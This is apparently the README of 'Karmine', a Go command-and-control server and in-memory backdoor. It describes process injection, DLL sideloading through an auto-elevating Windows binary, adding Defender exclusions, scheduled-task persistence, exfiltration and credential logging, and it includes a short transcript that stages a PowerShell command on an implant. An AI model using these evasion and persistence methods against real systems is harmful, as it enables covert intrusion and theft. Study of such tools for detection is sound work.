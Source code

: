 # Karmine

Karmine is a C2 server written in Go. It handles requests from a bot/backdoor ('Karma'), which has built-in dropping, exfiltration and anti-analysis / sandboxing features. All communication happens over mTLS, with transferred objects AES-encrypted to avoid detection. Karma instances are run entirely in memory via [Process Injection](https://github.com/pygrum/karmine/karl/runpe/README.md).

## Why?

I built this as part of independent research into malware detection evasion techniques. Some of the simpler techniques are included in the beacon ('Karma') of this project:
- Fileless execution: the final payload is embedded as an encrypted buffer into another program. It is then decrypted and injected into another process
- DLL sideloading: the custom DLL included in this project leverages a DLL sideloading 'vulnerability' in the trusted file `bthudtask.exe`, which auto-elevates to Admin. The DLL subsequently adds the 
current folder to the Windows Defender exclusion path, disables the cleaning of the temp folder, and creates a scheduled task for the payload to run each time the device restarts.
- As of release v0.1.0, there are no anti-analysis / sandboxing techniques built in.

## Use cases

This project is versatile; with potential for use within CTFs, as well as real life testing situations, due to it's enhanced evasion abilities.
I do NOT condone and will NOT be responsible for the use of this software for malicious purposes. This software is intended for educational + legal use only.

## Setup 

Run `install.sh` in the project root. This will set up configuration files, the `bin`, a x509 certificate-key pair, and a database. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name. 
The project depends on ncat for you to set up a listener using the SSL keys in your configuration folder. The ncat command to do so printed to the terminal after a reverse shell is requested, so you can paste and run it in a separate terminal window.

### Dependencies

- `ncat`

## Usage 

### Example

```
$  new karma --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  127.0.0.1:1337 ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 4 commands:
- `new`
- `profiles`
- `stage`
- `deploy`

To get usage info about these commands, type `<command> --help`
